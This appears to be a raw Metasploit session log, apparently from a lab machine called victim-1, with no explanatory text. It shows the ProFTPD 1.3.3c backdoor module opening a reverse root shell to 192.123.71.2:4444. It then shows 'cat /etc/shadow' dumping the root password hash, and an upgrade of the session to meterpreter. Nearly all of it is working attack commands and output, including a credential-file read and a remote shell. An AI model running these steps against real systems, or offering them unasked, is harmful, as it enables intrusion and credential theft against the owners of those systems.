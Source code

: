 ```
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 6ZnF8bXnPuSA5JQ9;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "6ZnF8bXnPuSA5JQ9\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.123.71.2:4444 -> 192.123.71.3:52424) at 2023-07-15 11:40:35 +0000

```

```
/bin/bash -i
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/# whoami
whoami
root
root@victim-1:/# id
id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
root@victim-1:/# cat /etc/shadow
cat /etc/shadow
root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
daemon:*:18311:0:99999:7:::
bin:*:18311:0:99999:7:::
sys:*:18311:0:99999:7:::
sync:*:18311:0:99999:7:::
games:*:18311:0:99999:7:::
man:*:18311:0:99999:7:::
lp:*:18311:0:99999:7:::
mail:*:18311:0:99999:7:::
news:*:18311:0:99999:7:::
uucp:*:18311:0:99999:7:::
proxy:*:18311:0:99999:7:::
www-data:*:18311:0:99999:7:::
backup:*:18311:0:99999:7:::
list:*:18311:0:99999:7:::
irc:*:18311:0:99999:7:::
gnats:*:18311:0:99999:7:::
nobody:*:18311:0:99999:7:::
_apt:*:18311:0:99999:7:::
root@victim-1:/# ^Z
Background session 1? [y/N]  y
```

```
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.123.71.2:4444 -> 192.123.71.3:48342 (192.123.71.3)

msf5 exploit(unix/ftp/proftpd_133c_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

```